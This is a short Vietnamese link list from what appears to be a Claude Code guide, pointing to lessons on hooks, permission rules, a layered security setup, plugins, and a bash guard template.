- **[Bài 07 — Hooks](./07-hooks-tu-dong-hoa.md)**: viết PreToolUse hook, exit 2 block, hook deny thắng bypass.
- **[Bài 10 — Permissions](./10-permissions-modes-availability.md)**: deny/ask/allow rules, managed policy, prefix-matcher bẫy.
- **[Bài 15 — Security stack](./15-security-stack-5-tang.md)**: tầng 0–4, guidance ≠ guardrail, CI cửa cuối.
- **[Bài 09 — Plugins & marketplaces](./09-plugins-marketplaces.md)**: `claude plugin eval`/`install --marketplace`, trust bar của Mods với plugin thường.
- **[03-FAQ/09 — Bảo mật](../03-cau-hoi-thuong-gap/09-bao-mat-quyen-rieng-tu.md)**: câu hỏi thường gặp về Mods/bảo mật (đọc khi gặp lỗi lạ).
- **[commands/plugin-validate](./commands/knowledge-system/plugin-validate/README.md)**: reference `plugin test` + `plugin validate` đầy đủ.
- **templates/.claude/hooks/bash-guard.sh**: mẫu guard tách segments + strip env-prefix.
